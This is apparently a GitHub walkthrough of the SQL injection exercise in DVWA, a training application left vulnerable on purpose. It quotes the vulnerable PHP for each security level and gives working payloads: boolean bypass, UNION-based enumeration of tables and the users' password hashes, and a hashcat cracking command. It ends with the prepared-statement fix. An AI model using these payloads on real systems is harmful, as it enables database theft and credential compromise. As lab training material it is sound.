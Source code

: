 # SQL Injection

## About

> A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application.<br />
> A successful SQL injection exploit can read sensitive data from the database, modify database data (insert/update/delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system (load_file) and in some cases issue commands to the operating system.<br />
> SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.<br />
> This attack may also be called "SQLi".

Source: DVWA Documentation

## Low Security

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql1.png?raw=true">
</p>

Inserting `1'` will return an error, that's means that SQL Injection could be possible.

Visiting the source code we can find:
```php
// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

// Get results
while( $row = mysqli_fetch_assoc( $result ) ) {
    // Get values
    $first = $row["first_name"];
    $last  = $row["last_name"];

    // Feedback for end user
    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
}

mysqli_close($GLOBALS["___mysqli_ston"]); 
```

We can see that the `'$id'` is not validated or sanitized in any way, so we can inject the following: `1' OR 1=1;#`

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql2.png?raw=true">
</p>

With this payload we bypass the query using the quote symbol and add the logic operator `OR`, which will make the query to return between the id given or a true statement such as 1=1.
The pound sign `#` is used to comment the rest of the query.

So, the query executed will look like this:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1;#';"
```

To further exploit this vulnerability we can use the UNION method to extract more information:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT @@version, null#';"
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql8.png?raw=true">
</p>

Now we got the version of the database.
First, we need to enumerate the columns using `UNION SELECT null,null`, and we add null values until we will get a valid response. This is usually done to enumerate the number of columns returned, but in this case we already know that `first_name` and `last_name` are returned.
Keep in mind that `@@version` syntax will only work for MySQL dbs.

Using `database()` function we can find the name of the database.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql9.png?raw=true">
</p>

Now we can enumerate the tables, the columns and extract the values.
For the next queries I changed the format a little bit.	

```sql
1' UNION SELECT null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'dvwa'#
```	

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql10.png?raw=true">
</p>

```sql
1' UNION SELECT null,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'#
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql11.png?raw=true">
</p>

```sql
1' UNION SELECT user, password FROM users#
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql12.png?raw=true">
</p>

We can use `hash-identifier` in order to find the hash format, and then we will brute-force it using `hashcat`.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql13.png?raw=true">
</p>

```
hashcat -m 0 password /usr/share/wordlists/rockyou.txt
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql14.png?raw=true">
</p>

## Medium Security

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql3.png?raw=true">
</p>

For the Medium security level we can not change the value of the parameter directly from the UI, but we can edit it with the Inspect Element option.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql15.png?raw=true">
</p>

Another method is to use a Proxy tool like Burp Suite to modify the HTTP request.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql4.png?raw=true">
</p>

We will add the payload without the quote because now the $id does not need anymore. Then we URL encode the payload and send it.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql5.png?raw=true">
</p>

The same enumeration using UNION method is still working.

Source code:
```php
// Get input
$id = $_POST[ 'id' ];

$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

switch ($_DVWA['SQLI_DB']) {
    case MYSQL:
        $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
        $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

        // Get results
        while( $row = mysqli_fetch_assoc( $result ) ) {
            // Display values
            $first = $row["first_name"];
            $last  = $row["last_name"];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
        break;
```

What is different here is the presence of `mysqli_real_escape_string()` which is escaping the following characters:
```
NUL (ASCII 0), \n, \r, \, ', ", and CTRL+Z
```
The problem is that the quote is not needed anymore and the other symbols are not affecting us.

## High Security

For the High level of security the source code looks like this:
```sql
if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Get values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }

            ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
            break; 
```
For this exercise a new window for the input will open, so the input is transferred using another page.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql6.png?raw=true">
</p>

As we can see the `$id` is still sent unsecured.
In this query we have a `LIMIT 1` which will make the query to return only one record from the database, but this can still be commented using injection with `#` symbol.
In this case, the same payloads will work for High security level.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql7.png?raw=true">
</p>

## Impossible Security

Source Code:
```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        $id = intval ($id);
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();
		
        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];
		
            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

For this case, an Anti-CSRF token was implemented, and the application verifies if the `$id` has a numerical value.